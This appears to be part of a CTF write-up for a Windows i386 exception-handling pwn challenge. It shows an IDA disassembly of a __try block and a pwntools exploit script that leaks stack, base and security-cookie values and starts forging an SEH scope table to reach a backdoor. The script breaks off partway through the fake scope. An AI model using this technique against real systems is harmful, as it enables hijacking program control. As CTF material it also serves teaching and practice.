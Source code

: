 ```asm
.text:004010DC                 push    eax
.text:004010DD                 lea     eax, [ebp+ms_exc.registration]
.text:004010E0                 mov     large fs:0, eax
.text:004010E6                 mov     [ebp+ms_exc.old_esp], esp
.text:004010E9                 mov     [ebp+var_B8], 0
.text:004010F3                 mov     [ebp+var_CC], 1
.text:004010FD                 mov     [ebp+var_D0], 1
.text:00401107 ;   __try { // __except at final_func
.text:00401107                 mov     [ebp+ms_exc.registration.TryLevel], 0
.text:0040110E                 push    0               ; Size
.text:00401110                 push    4               ; Mode
.text:00401112                 push    0               ; Buf
```

### exp.py

```py
# encoding=utf-8
from pwn import *

context.arch = "i386"
context.log_level = "debug"

p = remote('10.210.108.240', 10031)
#p = remote('node3.buuoj.cn', 28789)

raw_input()
#leak stack addr
p.recvuntil("stack address = 0x")
stack_addr = int(p.recvline().strip('\n'),16)
log.success("stack addr => " + hex(stack_addr))
#leak main addr
p.recvuntil("main address = 0x")
main_addr = int(p.recvline().strip('\n'),16)
pe_base = main_addr - 0x10b0
ebp = stack_addr+0x9c
log.success("main addr => " + hex(main_addr))
#leak gs
p.recvuntil("Do you want to know more?")
p.sendline("yes")
p.sendline(str(stack_addr+0x80))

p.recvuntil("value is 0x")
gs = int(p.recvline().strip('\n'),16)
log.success("gs => " + hex(gs))

security_cookie = gs ^ (stack_addr+0x9c)
log.success("security_cookie => " + hex(security_cookie))
#leak next
p.recvuntil("Do you want to know more?")
p.sendline("yes")
p.sendline(str(ebp-0x10))
p.recvuntil("value is 0x")
next_p = int(p.recvline().strip('\n'),16)
log.success("next => " + hex(next_p))
#fake scope
back_door = pe_base + 0x138d
except_handler = pe_base + 0x1460
'''
fake_scope = flat([
    0x0FFFFFFFE,
    0,
    0x0FFFFFFCC,
```